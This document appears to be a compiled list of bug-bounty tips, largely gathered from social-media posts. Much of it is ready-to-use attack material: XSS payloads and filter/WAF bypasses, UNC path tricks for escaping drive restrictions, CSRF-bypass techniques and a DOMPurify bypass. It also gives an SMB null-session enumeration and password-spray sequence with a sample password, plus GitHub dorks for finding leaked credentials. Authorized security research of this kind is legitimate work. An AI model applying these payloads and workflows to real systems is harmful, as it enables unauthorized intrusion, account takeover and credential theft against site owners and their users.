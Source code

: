 ## Tips



@PaulosYibelo

Disable/Bypass DOMPurify by abusing the XSSAuditor, site/?a=<script type="text/javascript" src="src/purify.js"></script> will block the script if the site doesn’t return X-XSS-Protection: 0;

------------------------------------


Having a breakout exercise and direct drive access is forbidden? Perhaps try these too:
\\localhost\d$
\\127.0.0.1\d$
file:\\127.0.0.1\d$
\\--1.ipv6-literal.net\d$
\\http://0--1.ipv6-literal.net\d$
\\--0-1.ipv6-literal.net\d$
file://--0-1.ipv6-literal.net\d$

---------------------------------------------

1) amass enum -config config.ini -brute -w all.txt
2) Identify hosts, not previously found.
3) gobuster -u http://example.com -w content_discovery_nullenc0de.txt
4) Read through the JS files gobuster found.
5) Browse to links identified in JS.
6) Download list of APIs/pass.

-----------------------------------------

WAF bypass w/ Tab html entity for obfuscation

XSS payload:
<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>

Renders as:
<iframe src="java    sc    ript:al    ert()"></iframe>

--------------------------------------------


Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.

------------------------------------------



Here's a regular expression for extracting variable names from JS. I'll be using the results for parameter fuzzing.

/(?<=(var|const|let) )([A-Za-z0-9_]+?)(?=(;|,|=| ))/g

It's far from perfect, but I'm not great with regex.


------------------------------------


Quick Tip: While you are trying to find more subdomains and you use the Google Dork:  site:*.example.com, NEVER forget to check
site:*.*.example.com and
site:*.*.*.example.com 


-------------------------------

Everything patched? Good baselines? Find NULL Sessions!
1) Find your DC's
nmap -sS -p3268,3269 -iL subnets.txt
2) Enumerate Users
enum4linux -U 192.168.x.x
3) Pull Password Policy
enum4linux -P 192.168.x.x
4) Password Spray Usernames
cme smb 192.168.x.x -u users.txt -p Summer2019

------------------------------------

Jin Wook Kim
@wugeej
[Guide Book] Bypassing CSRF Protection

1. Clickjacking
2. Change the request method
3. Delete the token param or send a blank token
4. Use another session’s CSRF token
5. Session fixation
6. CSRF Protection via Referer
7. Bypass the regex

-------------------------------
I bypassed an interesting xss protection with :
%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e


https://twitter.com/sametsahinnet/status/1169223269708455944

---------------------------------------

hackbar plugin

https://twitter.com/CyberWarship/status/1169328352496365570

------------------------------------

Hussein Daher
@HusseiN98D
Analysis of an RCE I found past week. RT and Like if you want more! If you got a bug bounty program, I'm open to any invite :) #bugbounty #bugbountytip #bugbountytips #infosec

https://twitter.com/HusseiN98D/status/1170421494830305280

------------------------------------------

Recon Tip:

As javascript files are always full of secret information here is how to can use `grep` to extract comments inside JavaScript.

Example:

curl https://paypalobjects.com/api/checkout.js | grep '//'

-----------------------------------

XSS filter bypass using stripped </div> tags to obfuscate.  Multiple P2 Stored XSS on a private bug bounty program.

XSS Payload:
<</div>script</div>>alert()<</div>/script</div>

---------------------------------------------------


Dir scan on a subdomain -> Access to /api/admin HTTP 403 -> access to /api/admin.json HTTP 200 -> SMTP creds leaking -> no-reply company email takeover

Reported as a crit. Always try to add .json, you never know how the application router's going to behave #bugbountytips

-----------------------------------------------------------

#bugbountytips #bugbounty Top GitHub Dorks and Scan GitHub Repositories for Sensitive Data
password
dbpassword
dbuser
access_key
secret_access_key
bucket_password
redis_password
root_password
HOST=http://smtp.gmail.com
filename:.htpasswd
extension:sql mysql dump

----------------------------------------

/api POST Request 
 
&ul="><img+src=x+onerror=prompt(1);>.

/api Response
{
"errors": {
"ul": "Invalid value \"><img src=x onerror=prompt(1);>."
}
}

but no XSS "><"is being filtered with "&lt; &gt;"  is there any way to bypass these filters?

--------------------------------------------------------------------------

Quick and dirty way to find parameters vulnerable to LFI & Path Traversal & SSRF & Open Redirect:
Burp Search > Regex 
\?.*=(\/\/?\w+|\w+\/|\w+(%3A|:)(\/|%2F)|%2F|[\.\w]+\.\w{2,4}[^\w])

-----------------------

oneliner to open a bunch of hosts/urls #bugbountytips 

firefox `cat urls.txt | awk '{if(index($1,"http")){print $1}else{print "http://"$1;print "https://"$1}}' | tr "\n" " "`

-----------------------------------


Found easy xss

1. Subdomain enumeration
2. S3 bucket with access denied
3. Ffuf found -> /cdn/
4. Ffuf found -> /cdn/proxy.html
5. Blank page -> view source, found url param (document.location)
6. ?url=javascript:alert ()

--------------------------------------------


Account takeover
1. 1 account logged in 2 browsers
2. Tried signup with same account but showing email exist and redirect to signup page
3. In Firefox captured request of sign up submit >Do intercept > Response > Email exists

----------------------------------------------


Bug Bounty Tip for checking javascript files response which are stored in text file:

cat js_files_url_list.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
